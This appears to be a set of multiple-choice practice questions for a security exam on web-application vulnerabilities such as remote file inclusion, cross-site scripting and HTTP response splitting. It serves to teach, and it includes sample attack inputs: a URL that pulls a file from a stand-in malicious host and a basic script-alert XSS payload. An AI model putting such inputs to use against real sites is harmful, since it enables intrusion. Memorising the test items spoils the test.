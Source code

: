 
### Question 23
An attacker enters the following URL to exploit vulnerabilities in a web application:

`http://192.168.47.8:76/files/fi/?page=http://malicious.h4cker.org/cookie.html`

Which type of vulnerability did the attacker try to exploit?

- [ ] Directory traversal
- [ ] Cookie manipulation
- [ ] Local file inclusion
- [ ] Remote file inclusion

---

### Question 24
Because of an insecure code practice

, a web application returns user inputs in web pages without proper validation. An attacker exploits this weakness and enters the following input to try to execute a JavaScript code on the client browser.

`<script>alert(‘XSS’);</script>`

Which type of attack is this?

- [ ] Injection attack
- [ ] DDoS attack
- [ ] Cross-site scripting (XSS)
- [ ] CSRF

---

### Question 25
A web application uses user-supplied input without proper validation in a request that is routed to a search service. Which attack method is this?

- [ ] Directory traversal
- [ ] Cross-site scripting
- [ ] SQL injection
- [ ] Parameter manipulation

---

### Question 26
Which type of vulnerability can be exploited by an attacker when a web application sends information to the user's browser that allows the attacker to manipulate the way the browser interprets the content?

- [ ] HTTP response splitting
- [ ] Cookie manipulation
- [ ] Cross-site scripting
- [ ] CSRF

---
